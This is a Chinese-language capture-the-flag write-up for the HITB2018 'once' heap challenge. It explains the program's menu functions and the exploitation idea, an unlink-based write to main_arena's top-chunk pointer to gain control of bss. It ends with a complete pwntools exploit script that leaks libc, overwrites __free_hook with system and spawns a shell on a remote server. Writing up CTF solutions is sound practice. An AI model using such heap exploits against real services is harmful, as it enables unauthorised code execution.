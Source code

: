 这题出得不错，虽然有点极限利用的感觉

首先说下程序的功能吧

![](https://github.com/charlieleex/CTF_Writeup/blob/master/HITB2018/once/t1.jpg)

第一个是alloc
里面是一个双向链表的结构

第二个是change_list
是修改当前链表中的第一个

第三个是list_next，是将list指向下一个

第四个trigger，这是我自己瞎起的名字，不过这里也比较重要
里面能malloc, read ,free 一个堆一次，大小也有限制

然后不是这几个选项的话，就会输出puts的地址，这里我称之为gitf吧

我说下我做题的思路是怎样的吧

首先在change list中，可以修改当前链表中第一个的内容，这样配合alloc和list_next中的unlink操作，就可以实现任意地址赋值为堆中的地址或者bss段中的地址

关键有了这个漏洞之后，写哪里，写什么是一个问题

这个时候，在脑子中迅速列出了两个选项：

1. main_arena 中的fast bin list
2. main_arena 中指向top chunk的地址

后面选择了第二个，第一个貌似也是可以的

但是有一个问题，就是无论哪一个，都需要配合上自己构造的数据

然后试着调了一下程序，发现list的初始值居然指向自身地址-0x10

然后利用change_list，就可以构造出所需要的数据，然后很明显，再用list_next就可以在fast bin list 或者main arena中top chunk的地址上写上list-0x10

这个时候用trigger 中的malloc，就可以返回list-0x10的地址，之后就可以实现控制bss段中的数据，后面就可以各种骚操作了

下面是payload

```
from pwn import *

debug=0
e=ELF('./libc.so')
if debug:
    p=process('once',env={'LD_PRELOAD':'./libc.so'})
    context.log_level='debug'
    gdb.attach(p)
else:
    p=remote('47.75.189.102', 9999)

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)


def gift():
    se('0\n')
    ru('Invalid choice\n')
    base=int(p.recv(14),16)-e.symbols['puts']
    return base

def alloc():
    se('1\n')
    ru('suceess')

def change(content):
    se('2\n')
    sleep(0.5)
    se(content)
    ru('success')

def next():
    se('3\n')
    ru('success')


def trigger():
    se('4\n')
    sleep(0.5)

def trigger_read(content):
    se('2\n')
    sleep(0.5)
    se(content)
    ru('>')

def trigger_malloc(sz):
    se('1\n')
    ru('input size:')
    se(str(sz)+'\n')
    ru('>')

def trigger_end():
    se('4\n')
    ru('>')



base=gift()

main_arena=0x3C4B78+base

bss_start=base+0x3C5620
stdin=base+0x3C48E0

free_hook=base+e.symbols['__free_hook']

binsh=base+e.search('/bin/sh').next()

change(p64(1)+p64(0x20fe1)+p64(main_arena-0x10)*2)

alloc()

next()

trigger()

trigger_malloc(400)

payload=p64(free_hook)*2+p64(bss_start)+p64(0)+p64(stdin)+p64(0)*2
payload+=p64(binsh)+p32(0)+p32(0x100)+p64(0)

trigger_read(payload)

trigger_end()

change(p64(base+e.symbols['system']))

se('4\n')
sleep(0.5)
se('3\n')

p.interactive()

```